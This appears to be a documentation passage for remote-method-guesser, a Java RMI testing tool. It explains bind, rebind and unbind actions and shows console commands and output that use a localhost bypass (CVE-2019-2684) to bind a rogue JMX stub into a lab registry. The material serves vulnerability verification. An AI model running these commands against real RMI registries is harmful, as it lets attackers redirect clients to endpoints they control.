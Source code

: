 
#### bind, rebind and unbind

By using the ``bind``, ``rebind`` or ``unbind`` action, it is possible to modify the available *bound names* within the *RMI registry*.
This is especially useful for verifying ``CVE-2019-2684``, which bypasses the localhost restrictions and enables remote users to perform
bind operations. When using the ``bind`` or ``rebind`` action *remote-method-guesser* binds the ``javax.management.remote.rmi.RMIServerImpl_Stub``
*RemoteObject* by default, which is the *RemoteObject* used by *jmx* servers. Additionally, you need to specify the address of the corresponding
*TCP endpoint* where the *RemoteObject* can be found (address where clients should connect to, when they attempt to use your bound object).

```console
[qtc@devbox ~]$ rmg enum 172.17.0.2 9010 | head -n 11
[+] RMI registry bound names:
[+]
[+] 	- plain-server2
[+] 		--> eu.tneitzel.rmg.server.interfaces.IPlainServer (unknown class)
[+] 		    Endpoint: iinsecure.example:39153 ObjID: [-af587e6:17d6f7bb318:-7ff7, 9040809218460289711]
[+] 	- legacy-service
[+] 		--> eu.tneitzel.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
[+] 		    Endpoint: iinsecure.example:39153 ObjID: [-af587e6:17d6f7bb318:-7ffc, 4854919471498518309]
[+] 	- plain-server
[+] 		--> eu.tneitzel.rmg.server.interfaces.IPlainServer (unknown class)
[+] 		    Endpoint: iinsecure.example:39153 ObjID: [-af587e6:17d6f7bb318:-7ff8, 6721714394791464813]

[qtc@devbox ~]$ rmg bind 172.17.0.2 9010 127.0.0.1:4444 my-object --localhost-bypass 
[+] Binding name my-object to javax.management.remote.rmi.RMIServerImpl_Stub
[+]
[+] 	Encountered no Exception during bind call.
[+] 	Bind operation was probably successful.

[qtc@devbox ~]$ rmg enum 172.17.0.2 9010 | head -n 14
[+] RMI registry bound names:
[+]
[+] 	- plain-server2
[+] 		--> eu.tneitzel.rmg.server.interfaces.IPlainServer (unknown class)
[+] 		    Endpoint: iinsecure.example:39153 ObjID: [-af587e6:17d6f7bb318:-7ff7, 9040809218460289711]
[+] 	- my-object
[+] 		--> javax.management.remote.rmi.RMIServerImpl_Stub (known class: JMX Server)
[+] 		    Endpoint: 127.0.0.1:4444 ObjID: [6633018:17cb5d1bb57:-7ff8, -8114172517417646722]
[+] 	- legacy-service
[+] 		--> eu.tneitzel.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
[+] 		    Endpoint: iinsecure.example:39153 ObjID: [-af587e6:17d6f7bb318:-7ffc, 4854919471498518309]
[+] 	- plain-server
[+] 		--> eu.tneitzel.rmg.server.interfaces.IPlainServer (unknown class)
[+] 		    Endpoint: iinsecure.example:39153 ObjID: [-af587e6:17d6f7bb318:-7ff8, 6721714394791464813]
```
